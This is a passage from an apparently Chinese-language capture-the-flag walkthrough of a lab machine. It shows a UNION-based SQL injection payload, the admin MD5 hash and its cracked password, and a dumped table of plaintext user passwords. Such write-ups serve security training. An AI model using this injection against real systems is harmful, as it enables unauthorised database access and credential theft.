     - 数据
        
        ```python
        search='or'1'='0' union select group_concat('~',Username,':',Password,'~'),2,3,4,5,6 from Users %23
        ```
        
        `admin:856f5de590ef37314e7c3bdf6f8a66dc` 拿到`admin`账户，密码看着像是`MD5`加密后的，使用网站破解出来为`transorbital1`
        
    - 顺便再把`users`库的`UserDetails` 表数据也扒下来
        
        ```python
        +----+------------+---------------+---------------------+-----------+-----------+
        | id | lastname   | password      | reg_date            | username  | firstname |
        +----+------------+---------------+---------------------+-----------+-----------+
        | 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
        | 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
        | 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
        | 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
        | 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
        | 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
        | 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
        | 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
        | 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
        | 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
        | 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
        | 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
        | 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
        | 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
        | 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
        | 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
        | 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
        +----+------------+---------------+---------------------+-----------+-----------+
        ```
        
4. 尝试登录后台，成功登录，寻找可以利用的点
    